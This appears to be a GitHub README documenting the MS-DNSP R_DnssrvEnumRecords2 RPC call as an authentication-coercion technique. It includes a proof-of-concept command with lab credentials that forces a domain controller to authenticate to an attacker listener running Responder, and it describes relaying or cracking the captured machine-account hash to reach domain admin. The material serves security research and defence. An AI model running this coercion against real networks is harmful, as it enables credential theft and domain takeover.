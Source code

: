 # MS-DNSP - Remote call to R_DnssrvEnumRecords2 (opnum 8)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvEnumRecords2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0d236e58-9944-4cdf-ae98-f92460202e29)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0d236e58-9944-4cdf-ae98-f92460202e29) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords2(
   [in]                                   handle_t           hBindingHandle,
   [in]                                   DWORD              dwClientVersion,
   [in]                                   DWORD              dwSettingFlags,
   [in, unique, string]                   LPCWSTR            pwszServerName,
   [in, unique, string]                   LPCSTR             pszZone,
   [in, unique, string]                   LPCSTR             pszNodeName,
   [in, unique, string]                   LPCSTR             pszStartChild,
   [in]                                   WORD               wRecordType,
   [in]                                   DWORD              fSelectFlag,
   [in, unique, string]                   LPCSTR             pszFilterStart,
   [in, unique, string]                   LPCSTR             pszFilterStop,
   [out]                                  PDWORD             pdwBufferLength,
   [out, size_is(, *pdwBufferLength)]     PBYTE*             ppBuffer
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvEnumRecords2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0d236e58-9944-4cdf-ae98-f92460202e29